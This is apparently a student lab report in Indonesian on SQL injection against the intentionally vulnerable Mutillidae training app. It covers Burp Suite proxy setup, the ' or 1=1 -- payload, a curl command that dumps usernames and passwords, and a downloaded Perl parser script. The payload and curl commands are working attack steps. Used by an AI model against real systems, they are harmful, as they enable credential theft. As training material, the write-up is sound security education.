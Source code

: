 # Lesson 7 : SQL Injection, Burpsuite, cURL, Perl Parser

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info 
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Configure Firefox Proxy Settings
1. View Preferences
   - Edit --> Preferences
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/preferences.png "Home page")
2. Advanced Settings
   - Pilih Menu Advanced
   - Pilih Network Tabs
   - Pilih Settings
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/network_tab.png "Home page")
3. Connection Settings
   - Gunakan manual proxy
   - Pada kolom HTTP Proxy isikan **127.0.0.1**
   - Pada kolom Port **8080**
   - Centang bagian Use the proxy server for all protocols 
   - Klik Ok, Kemudian Close
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/set_config_proxy.png "Home page")

## Configure Burpsuite Settings
1. Buka Aplikasi Burpsuite
   - Akan muncul halaman aplikasi, pilih next
   - Use Burp defaults, kemudian klik start Burp
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/use_default.png "Home page")
2. Configure proxy
   - Pilih tab proxy, kemudian options
   - Set port ke 8080 seperti berikut
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/proxy_port_8080.png "Home page")
3. Turn off intercept
   - Pilih tab intercept
   - Pastikan intercept button dalam keadaan off (**intercept is off**), jika dalam keadaan on maka set ke off
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/2/intercept_off.png "Home page")

## SQL Injection: Obtain Userlist (Method #1)
1. Obtain Userlist Without Password
   - Pada kolom textbox **Name** isikan **`' or 1=1 -- `**
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol **View Account Details**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/true.png "Home page")
2. View Results
	- Halaman selanjutnya akan memuat kumpulan data table account yang berupa username, password dan signature
	- Perhatikan string yang ada pada url yang di hightlight `'+or+1%3D1--+`
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/result.png "Home page")
3. View Post Data (With Burp Suite)
   - Klik pada Tab Proxy
   - Klik pada Tab History
   - Klik cari line yang urlnya mengandung **/mutillidae/index.php?page=user-info.php** dengan Method GET
   - Klik pada Tab Request
   - Klik pada Tab Raw
   - Perhatikan isi string pada username, string tersbut  akan digunakan untuk melancarkan serangan
   - Perbedaan string tersebut dengan string yang sebelumnya adalah %27 setelah single quote(')
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/data_raw.png "Home page")
   - Highligt text, kemudian klik kanan
   - Klik "Copy to File" 
4. Save File
   - Save file di dalam folder **root**
   - File Name: **crack_cookies2.txt**
   - Klik tombol Save
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/save_raw.png "Home page")

## Simulate CURL SQL Injection: (Method #2)
1. Use Curl to Display Usernames and Passwords
   - Buka terminal, jalankan perintah berikut : 
 ```
   curl -b crack_cookies2.txt -c crack_cookies2.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'
 ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/run_curl.png "Home page")

## Perl Parser
   - Jalankan perintah berikut pada terminal :
 ```
   cd /root
   curl -b crack_cookies2.txt -c crack_cookies2.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+or+1%3D1+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.0.1.100/mutillidae/index.php" | grep "Username=" > lesson7.txt
   cat lesson7.txt
 ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/cat_lesson.png "Home page")

## Download Parser
   - Jalankan perintah berikut pada terminal :
   ```
   cd /root
   wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson7/lesson7.pl.TXT
   mv lesson7.pl.TXT lesson7.pl
   chmod 700 lesson7.pl
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/download_perl.png "Home page")

## Run Perl Script
   - Jalankan perintah berikut pada terminal :
   ```
   ./lesson7.pl
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/run_perl.png "Home page")